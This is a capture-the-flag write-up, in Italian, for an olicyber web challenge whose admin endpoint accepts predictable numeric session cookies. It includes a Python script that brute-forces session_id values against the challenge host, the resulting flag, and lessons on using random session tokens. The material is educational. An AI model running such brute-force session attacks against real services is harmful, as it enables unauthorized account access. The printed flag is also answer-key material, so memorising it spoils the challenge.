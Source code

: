 # Writeup: A TOO small reminder...

## Descrizione 📝
La challenge presenta una semplice API che, a prima vista, sembra non fare nulla di utile. Tuttavia, il messaggio nascosto invita a "scoprire i segreti dell'admin".  
L’API espone i seguenti endpoint:
- **GET /**: Restituisce una breve descrizione dell'API.
- **POST /register**: Consente di creare un nuovo account utente fornendo un JSON con `username` e `password`.
- **POST /login**: In caso di successo, ritorna il cookie di sessione.
- **GET /logout**: Distrugge la sessione.
- **GET /admin**: Accetta un cookie di sessione valido e, se corretto, restituisce informazioni riservate (in questo caso, la flag).

Il problema evidenziato è che il cookie di sessione fornito per accedere all'admin è errato, ma può essere bypassato facilmente tramite un attacco di brute force sui possibili valori del cookie.

---

## Sfruttamento 🎯

### 1. Analisi dell’API
L’API sembra essere un semplice sistema di autenticazione e gestione sessioni, dove il cookie di sessione è rappresentato da un campo `session_id`.  
Il target è l'endpoint:
```
GET /admin
```
che restituisce informazioni riservate (la flag) se viene fornito un cookie di sessione valido.

### 2. Attacco per Brute Force del Cookie
Usiamo uno script Python che invia richieste GET all’endpoint `/admin` iterando su possibili valori del cookie `session_id`.  
Lo script esegue le seguenti operazioni:
- Itera da 0 a 9999.
- Invia una richiesta GET con il cookie `session_id` impostato al valore corrente.
- Se la risposta ha codice 200 e contiene la stringa "flag", allora stampa la risposta e interrompe l’attacco.

### 3. Esempio di Codice
```python
import requests

URL = "http://too-small-reminder.challs.olicyber.it/admin"

for i in range(9999):
    cookies = {
        "session_id": f"{i}",
    }
    response = requests.get(URL, cookies=cookies)
    if response.status_code == 200 and "flag" in response.text:
        print(response.text)
        break
```

### 4. Risultato
L’attacco ha trovato un cookie di sessione valido, e la risposta del server è:
```json
{"messaggio":"Bentornato admin! flag{d0n7_cr3473_y0ur_535510n5}"}
```
La flag è, quindi:


## Flag 🏁
```
flag{d0n7_cr3473_y0ur_535510n5}
```

---

## Lezioni Apprese 📚
1. **Session Cookie Vulnerability**: Se l’API utilizza cookie di sessione deboli o prevedibili, è possibile forzarli tramite brute force.  
2. **Brute Forcing**: Iterare su possibili valori di cookie può rivelare credenziali o sessioni valide se la logica server-side non è robusta.  
3. **Validazione delle Sessioni**: Un sistema di autenticazione sicuro deve utilizzare token di sessione robusti, casuali e non indovinabili.

---

*Writeup by Luca Crippa - Last Updated: 2024*
